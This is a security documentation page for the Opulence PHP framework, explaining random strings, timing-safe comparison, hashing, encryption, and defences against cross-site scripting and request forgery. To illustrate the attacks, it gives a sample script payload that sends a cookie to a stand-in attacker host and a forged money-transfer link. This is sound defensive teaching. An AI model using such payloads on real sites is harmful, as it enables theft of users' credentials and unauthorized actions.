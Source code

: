 # Security

## Table of Contents
1. [Introduction](#introduction)
2. [Generating Random Strings](#generating-random-strings)
  1. [What is It?](#random-strings-what-is-it)
  2. [How to Use It](#random-strings-how-to-use-it)
3. [Comparing Strings](#comparing-strings)
  1. [What is It?](#comparing-strings-what-is-it)
  2. [How to Use It](#comparing-strings-how-to-use-it)
4. [Hashing](#hashing)
  1. [What is It?](#hashing-what-is-it)
  2. [How to Use It](#hashing-how-to-use-it)
5. [Encryption](#encryption)
  1. [What is It?](#encrpytion-what-is-it)
  2. [How to Use It](#encryption-how-to-use-it)
6. [Cross-Site Scripting (CSS)](#cross-site-scripting)
  1. [What is It?](#css-what-is-it)
  2. [How to Defend Against It](#css-how-to-defend-against-it)
7. [Cross-Site Request Forgery (CSRF/XSRF)](#cross-site-request-forgery)
  1. [What is It?](#csrf-what-is-it)
  2. [How to Defend Against It](#csrf-how-to-defend-against-it)

<h2 id="Introduction">Introduction</h2>
Building a secure application is extremely difficult.  Protecting your users from cross-site scripting, cross-site request forgeries, and session hijacking requires a lot of tools.  Fortunately, you don't have to be a security expert to take advantage of all the protection Opulence delivers out of the box.

<h2 id="generating-random-strings">Generating Random Strings</h2>
<h4 id="random-strings-what-is-it">What is It?</h4>
Random strings are commonly used to ensure security for things like session Ids and authentication tokens.  If your random strings are not so random, then your entire application can be compromised.

<h4 id="random-strings-how-to-use-it">How to Use It</h4>
Learn how to [generate random strings](cryptography#generating-random-strings) in Opulence.

<h2 id="comparing-strings">Comparing Strings</h2>
<h4 id="comparing-strings-what-is-it">What is It?</h4>
Comparing sensitive strings, like hashes and tokens, using PHP's `==` operator can give away information about the string you're comparing against.  For example, comparing "aaa" to "bbb" will return `false` faster than "aaa" and "aab" because PHP's comparison operator returns false at the first differing character.  Using 
a sensitive timer and many iterations, a hacker could figure out any secured hash that's being compared with user input.

<h4 id="comparing-strings-how-to-use-it">How to Use It</h4>
Learn how to [securely compare strings](cryptography#string-comparison) in Opulence.
   
<h2 id="hashing">Hashing</h2>
<h4 id="hashing-what-is-it">What is It?</h4>
Hashing involves performing a one-way mapping of input to a hashed value, which is suitable for storing sensitive data.  

<h4 id="hashing-how-to-use-it">How to Use It</h4>
Learn how to [hash data](cryptography#hashing) in Opulence.
   
<h2 id="encryption">Encryption</h2>
<h4 id="encryption-what-is-it">What is It?</h4>
Encryption is the process of encoding data with a special key so that only authorized parties may read it.  

<h4 id="encryption-how-to-use-it">How to Use It</h4>
Learn how to [encrypt data](cryptography#encryption) in Opulence.

<h2 id="cross-site-scripting">Cross-Site Scripting (CSS)</h2>
<h4 id="css-what-is-it">What is It?</h4>
Cross-site scripting involves the injection of client-side scripts into your pages.  A common vulnerability is displaying unsanitized user input to your page:

```php
Hello, <?php echo $_GET["name"]; ?>
```

A malicious user could send an unsuspecting user a hyperlink with a CSS injection in the URL:  `http://your-site.com/?name=<script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>`.  Clicking on the link would take the user to your page, which would display:

```
Hello, <script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>
```

Loading this page would send the user's "user-password" cookie to the attacker's server.

<h4 id="css-how-to-defend-against-it">How to Defend Against It</h4>
To solve this problem you must sanitize any user-input before displaying it on a page.  [Opulence's template system](view-basics#cross-site-scripting) gives you the tools to prevent cross-site scripting.

<h2 id="cross-site-request-forgery">Cross-Site Request Forgery (CSRF/XSRF)</h2>
<h4 id="csrf-what-is-it">What is It?</h4>
Cross-site request forgery is an attack where unauthorized commands are sent to a trusted site through an authenticated user.  For example, a malicious user might send a normal user Bob the following hyperlink:  `http://your-site.com/transferMoney?amount=1000&to=attacker-account-Id`.  If Bob was logged into your site, clicking this link would attempt to transfer money to the attacker's account without Bob's authorization.

<h4 id="csrf-how-to-defend-against-it">How to Defend Against It</h4>
To prevent this from happening, a unique token should be embedded in every form and with every session.  When the form is submitted, the form token and session token should be compared, and if they are not equal, the submission should be rejected.  In the example case above, the form token would not be set.  With CSRF protection in place, the form and session tokens would not match, and the form submission would be rejected.

Opulence automatically generates and compares the tokens using middleware.  To include the token in your form, use the `{{!csrfInput()!}}` view function in your view.  This will create a hidden input with your token, which will validate against the session token.  You can also use the `{{csrfToken()}}` template function to print the token in elements like meta tags:

```php
<meta name="csrf-token" content="{{csrfToken()}}">
```

To give you CSRF protection in JavaScript, Opulence sets the `XSRF-TOKEN` cookie, which some frameworks use to automatically set the `X-XSRF-TOKEN` HTTP header in requests.